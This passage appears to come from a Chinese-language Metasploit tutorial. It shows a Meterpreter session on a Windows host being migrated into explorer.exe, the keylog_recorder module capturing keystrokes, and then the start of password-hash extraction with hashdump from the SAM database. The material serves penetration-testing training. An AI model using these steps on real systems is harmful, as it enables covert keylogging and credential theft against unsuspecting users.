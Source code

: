 获得系统的密码，可以使用破解或攻击的方法，也可以在远程的主机上进行键盘记录。

* 先使用`ps`命令来获得目标系统正在进行的进程。
* 使用`migrate`命令将会话迁移到exploreer.exe进程中
* 启动`keylog_recoder`模块。
* 一段时间后，使用`Ctrl-C`终止。最后在另外一个终端，可以看到使用键盘记录所捕捉到的内容。

```javascript


meterpreter > migrate 2136
[*] Migrating from 1020 to 2136...
[*] Migration completed successfully.
meterpreter > run post/windows/capture/keylog_recorder 

[*] Executing module against ROOT-TVI862UBEH
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in to /root/.msf8/loot/20160306021734_default_10.10.10.130_host.windows.key_149067.txt
[*] Recording keystrokes...
^C[*] Saving last few keystrokes...
[*] Interrupt 
[*] Stopping keystroke sniffer...
meterpreter > 
```

![Alt text](/img/hack/Metasploit/1488784837662.png)

### **挖掘用户名和密码**

#### **0x01提取密码哈希值**。

通过使用Meterpreter中的`hashdump`模块提取系统的用户和密码哈希值。微软Windows系统存储哈希值的方式一般为LM、NTLM、或NTLMv2.

获取安全账号管理器(SAM)数据库，需要在system权限下，以绕过注册表的限制，获取受保护的存有Windows用户和密码的SAM存储。
